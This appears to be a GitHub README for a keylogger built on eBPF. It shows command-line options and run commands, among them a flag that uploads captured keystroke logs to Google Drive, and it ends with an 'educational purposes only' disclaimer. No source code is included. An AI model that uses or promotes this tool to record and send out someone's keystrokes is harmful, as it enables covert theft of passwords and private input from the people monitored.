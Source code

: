 # eBPF Keylogger

Keylogger written in [eBPF](https://ebpf.io/).

## How to run

```sh=
❯ sudo ./ebpf-keylogger -h
usage: bpf-keylogger [-h] [--debug] [-t] [-o OUTFILE] [-u]

A keylogger written in eBPF.

optional arguments:
  -h, --help            show this help message and exit
  --debug               Print debugging info.
  -t, --timestamp       Print time stamps.
  -o OUTFILE, --outfile OUTFILE
                        Output trace to a file instead of stdout.
  -u, --upload          upload the files to google drive
```

## Helpful cmds

```sh=
# To get help
sudo ./ebpf-keylogger -h

# To get the logs in std out run
sudo ./ebpf-keylogger


# You might have to give it executable permission
chmod +x ./ebpf-keylogger


# To get the logs in an outfile
sudo ./ebpf-keylogger -o OUTFILE.txt


# To run it with timestamps,
sudo ./ebpf-keylogger -o OUTFILE.txt -t

# To run it with uploads to google drive
sudo ./ebpf-keylogger -o OUTFILE.txt -t -u
```

Requires:

- The latest version of [bcc](https://github.com/iovisor/bcc)

# Disclaimer

**This code is made for EDUCATIONAL PURPOSES ONLY. We are not liable for any damages**
